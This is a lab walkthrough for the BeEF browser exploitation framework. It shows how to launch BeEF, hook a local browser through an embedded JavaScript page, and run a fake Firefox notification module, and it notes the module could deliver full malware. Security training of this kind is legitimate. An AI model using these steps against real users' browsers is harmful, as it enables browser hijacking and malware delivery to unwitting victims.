


BeEF
============

Website
-------

<https://beefproject.com>

Description
-----------

BeEF, The Browser Exploitation Framework Project is a tool for the pwnage of one of the 
underexplored frontiers in information security, the web browser.

Install Location
----------------

`/opt/beef`

Usage
-----

BeEF uses javascript to "hook" one or more browsers before attempting to leverage its access for 
further exploitation.

Video Walkthrough
-----------------

<video controls>
  <source src="Videos/1_550_BeEF.mp4">
  <source src="https://onedrive.live.com/download.aspx?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155679&canary=">
 
Your browser does not support html5 video.

</video>

Example 1: Hooking a Web Browser
--------------------------------

First change into the BeEF install directory:

`~$` **`cd /opt/beef`**

Next launch BeEF like so:

`/opt/beef$` **`sudo ./beef`**

        [14:00:53][*] Bind socket [imapeudora1] listening on [0.0.0.0:2000].
        [14:00:53][*] Browser Exploitation Framework (BeEF) 0.4.4.9-alpha
        [14:00:53]    |   Twit: @beefproject
        [14:00:53]    |   Site: http://beefproject.com
        [14:00:53]    |   Blog: http://blog.beefproject.com
        [14:00:53]    |_  Wiki: https://github.com/beefproject/beef/wiki
        [14:00:53][*] Project Creator: Wade Alcorn (@WadeAlcorn)
        [14:00:54][*] BeEF is loading. Wait a few seconds...
        [14:01:14][*] 10 extensions enabled.
        [14:01:14][*] 191 modules enabled.
        [14:01:14][*] 2 network interfaces were detected.
        [14:01:14][+] running on network interface: 127.0.0.1
        [14:01:14]    |   Hook URL: http://127.0.0.1:3000/hook.js
        [14:01:14]    |_  UI URL:   http://127.0.0.1:3000/ui/panel
        [14:01:14][+] running on network interface: 192.168.1.109
        [14:01:14]    |   Hook URL: http://192.168.1.109:3000/hook.js
        [14:01:14]    |_  UI URL:   http://192.168.1.109:3000/ui/panel
        [14:01:14][*] RESTful API key: 4bfb70558017e0a2362021864acd445f0d51882d
        [14:01:14][*] HTTP Proxy: http://127.0.0.1:6789
        [14:01:14][*] BeEF server started (press control+c to stop)

Now that we have BeEF listening for connections let's embed the javascript hook in a page and get 
our target to browse to it.

All you need to do to embed the javascript hook on any page is to insert a single line of html 
like this:

``

So if you have an html page that you would like to embed into, feel free.

However, we have already created a page which performs dynamic embedding of the BeEF hook.

This page is located at [http://127.0.0.1/beef/hook.php](http://127.0.0.1/beef/hook.php)

Open up a new Firefox instance by either running this command:

`~$` **`firefox & `**

Or by navigating `Launch Menu > Internet > Firefox Web Browser`

Once you have Firefox running let's visit the target page and get our browser hooked.

Load up [http://127.0.0.1/beef/hook.php](http://127.0.0.1/beef/hook.php)

You shouldn't see anything more than a default, blank, boring page.

Now open up a new tab and navigate to the BeEF UI.  This can be accomplished by either 
directly accessing the url [http://127.0.0.1:3000/ui/panel](http://127.0.0.1:3000/ui/panel)
or by visiting [http://127.0.0.1](http://127.0.0.1) and clicking the link **BeEF (Console)**.

Authenticate:

    Username:    beef
    Password:    beef

After authentication you should be able to see your hooked browser on the left hand side 
under "Online Browsers"

And that's it, you have successfully hooked a web browser.

The browser will remain hooked as long as the tab it has open to your page remains as such.

To see some example of what we can do with a hooked browser, continue on to 
[Example 2: Browser Based Exploitation With BeEF].

Example 2: Browser Based Exploitation With BeEF
-----------------------------------------------

Assuming you already have a hooked web browser, let's take a look at some things you can do with it.

Open the BeEF console by either navigating directly to [http://127.0.0.1/ui/panel](http://127.0.0.1/ui/panel)
or visiting [http://127.0.0.1](http://127.0.0.1) and clicking the link **BeEF (Console)**.

To get started click on your hooked web browser.  This should bring up details about your selected 
browser in the multi-tabbed menu on the right of the console.

These details can help you tailor attacks to your victim's browser.

Let's run a few commands.  Select the commands tab.

Now expand the module tree

Select `Social Engineering > Fake Notification Bar (Firefox)`

This should open up a menu on the right.  Leave all the options default and click `Execute`

After a few seconds, the hooked browser should see something similar to this.

If they install the plugin, they are pwned.
It should be noted that this method can be used to deliver anything, not just the default 
"malicious plugin."  This could easily be leverage to install fully fledged malware on the system, 
simply by updating the module options before execution.

There are tons of other modules available in BeEF, don't stop here. Get exploring.

